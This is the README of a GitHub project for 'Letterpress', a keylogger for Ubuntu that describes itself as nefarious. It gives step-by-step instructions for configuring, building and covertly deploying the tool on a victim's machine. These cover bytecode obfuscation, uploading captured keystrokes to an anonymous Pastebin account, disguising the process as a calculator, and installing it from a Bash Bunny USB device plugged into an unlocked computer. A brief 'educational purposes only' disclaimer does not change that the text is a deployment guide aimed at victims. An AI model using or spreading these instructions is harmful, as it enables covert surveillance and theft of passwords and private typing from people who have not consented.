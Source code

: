 # Letterpress

A nefarious keylogger for Ubuntu.

Letterpress...
- hides in plain sight
- compiles to python bytecode for obfuscation 
- encrypts keylog files so that only you can read them
- uploads keylog files to pastebin for remote exfiltration
- is easily deployable with the [Bash Bunny](https://wiki.bashbunny.com/#!index.md)

__DISCLAIMER: Letterpress is for educational purposes only. The use of this software should not be used under circumstances where doing so is illegal. The author is not responsible for its use. Don't be a dick.__

I'm hoping to make Letterpress cross-platform in the near future. If its been a couple of months since I've written this, that hasn't happened yet, and you wish to use it with another OS, bug me.

## Getting Started

```bash
# clone the repo
git clone https://github.com/brannondorsey/letterpress.git

# navigate into the cloned directory
cd letterpress

# install the necessary dependencies
# note: this may require sudo
pip install python-xlib pycrypto PyInstaller
```

## Configure

Letterpress must be configured before use. This is done by editing the [`src/config.py`](src/config.py) file.

### Using an RSA keypair

Letterpress uses an RSA public key to encrypt a symmetric AES cypher that is used to encrypt the keylog file that lives on the victim's computer. This protects the keylog file from being inspected at rest or in-transit from anyone but yourself (or whoever has the corresponding private RSA). 

If you don't have an existing RSA keypair, you can generate one with:

```bash
ssh-keygen -t rsa -b 4096 -C "your_email@example.com"
```

In order for your public key to be used to encrypt the keylog file you must add its contents as a string to the `public_key` variable inside of [`src/config.py`](src/config.py).

```python
# edit in src/config.py
public_key = "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDh15NNqRbPkDmyhEsyua3YXtLsXaxSH+Hwezy01GZY4aJdqSmUtCihRrMWkSD5pTbQ7UCflSSZ/09gK/yRQGlAHkSesIGtS/y2cZ7dfOFBQdGq9m1nP5vRldNq7JyicuI+pwVCb7Nkap+Zt0sb6nWi1gcJzHvyDFkhlonOG1GNxdS8BVvLe/l090nZoiNwaCtFaSxnhjOzoZEKjOe0tpucS+7AeP+AT4GIKLVLfMC0Wy8xQwSBKF22yS9z5p64eDTdOZG9c1/3dyIeyEbF5klQzF5rs31if0kiISNl+xoTBwrk0iB8Df27amzjuXEKYKbNV8MBiEOciJ7oXm5ieZHb test@example.com"
```

### Adding Pastebin Credentials

[Pastebin](https://pastebin.com/) is a popular text storage site that is often used by hackers to store, publish, or share stolen and leaked information. You must create a Pastebin account to use Letterpress, however accounts with API usage limits are free. Note that depending on your use of Letterpress you may wish to create a pastebin account using an email address that is not linked to your real name/identity. 

You must provide a value for the following variables in [`src/config.py`](src/config.py) like so:

```python
pastebin_username    = 'foobar'
pastebin_password    = '1337'
pastebin_api_dev_key = 'deadbeef1337d99a74fbe169e3eba035' 
```

Your unique pastebin API key can be found by clicking the API tab on [pastebin.com](https://pastebin.com)

### Changing Log Update & Upload Intervals

To minimize suspicion, Letterpress buffers keypresses and flushes them to file at an interval instead of after every keypress. Similarly, it uploads the encrypted keylog to pastebin after each set number of keypresses. The values for both of these intervals can be configured in [`src/config.py`](src/config.py).

```python
# flush buffer to file after this many key presses
num_keypresses_between_log_updates = 100
# upload the keylog to pastebin after this man key presses
num_keypresses_between_uploads     = 5000
```

## Build

Letterpress leverages [PyInstaller](https://github.com/pyinstaller/pyinstaller) to bundle all python dependencies into a compiled executable. To compile [`src/keylogger.py`](src/keylogger.py) into a standalone that can be deployed on a victim's machine, run:

```bash
./build.sh
```

If everything worked correctly the keylogger should have been compiled to `keylogger` in the project root.

## Deploy

Now that you've configured and built Letterpress, the last step is to actually get it onto your victim's computer. Again, Letterpress is for educational purposes only. __Do not__ use this on a machine you do not own without the owner's consent.

`keylogger` saves encrypted keylogs in a `.cache` hidden folder next to the binary. Each time it is launched it creates a new keylog file and AES key arbitrarily named `.cache/XXXX` and `.cache/XXXX_aes` respectively. The AES key is encrypted with the Public RSA key. This decrypted key was used to encrypt the `XXXX` keylog. These files two files are uploaded to pastebin every `num_keypresses_between_uploads` keypresses.

`install_keylogger.sh` is a quick and easy way to install the keylogger on a victim's machine. If both files exist on a target Ubuntu machine, and sit next to one another, the following command will install and run `keylogger`, hiding it plain site as `/home/$USER/.linux-calculator/calc`.

```bash
# install and run the keylogger, renaming it to calc and redirecting output to /dev/null
KEYLOGGER=keylogger INSTALL_DIR=/home/$USER/.linux-calculator BIN_NAME=calc ./install_keylogger.sh

# make sure it is running
ps aux | grep calc
```

If you choose not to install `keylogger` with `install_keylogger.sh` it is advisable to rename `keylogger` to something less suspicious given that it will be viewable to the victim if they inspect their running processes (via `ps`, etc...). 

### Deploy Using BashBunny

I've included a `payload.txt` script so that you can easily deploy Letterpress using a [Bash Bunny](https://wiki.bashbunny.com/#!index.md).

#### Arm Your Bash Bunny

Place your Bash Bunny in arming mode by flipping the switch so that it is closest to the USB side. You should see it pop up as a USB storage device named "BashBunny". Navigate to `path/to/BashBunny/payloads/switch1`. Delete the current contents in this folder if any exist. Copy the contents of the Letterpress contents into `switch1` (if you choose to instead arm to `switch2` be sure to edit the `SWITCH` variable in `install_keylogger.sh` to reflect this).

Replace `USERNAME` with the victim's username in `/home/USERNAME/BashBunny/...` inside the `payload.txt` that you just copied.  

#### Attack

Flip the Bash Bunny switch from arming mode to switch1 and plug it in to a victim Ubuntu machine. Note: the vicitm's screen must not be locked. Once the Bash Bunny boots up it should:

1. Open a new Terminal
2. Runs `bash "/media/USER_NAME/BashBunny/payloads/switch1/install_keylogger.sh"`
3. Waits 5 seconds and then exits the terminal

The keylogger should now be installed and running on the vicitm machine and you can unplug the Bash Bunny.

## Download and Decrypt Keylogs

Once your keylogger is deployed you should see periodic uploads to your pastebin as the user types on their machine. Download the encrypted keylog files `XXXX` and their matching AES key `XXXX_aes` and save them to disk. If pastebin automatically adds a `.txt` extension remove it. You can now decrypt and view the keylog `XXXX` like so:

```
PRIVATE_KEY=path/to/private_key ./decrypt.py XXXX
```

## Todo

- Keep the `keylogger` process up and launch on startup with a cron job.
- Edit `decrypt.py` so that it can optionally download from pastebin directly. Through something like a `--download` flag.
- Make cross-platform (MacOS + Windoze).
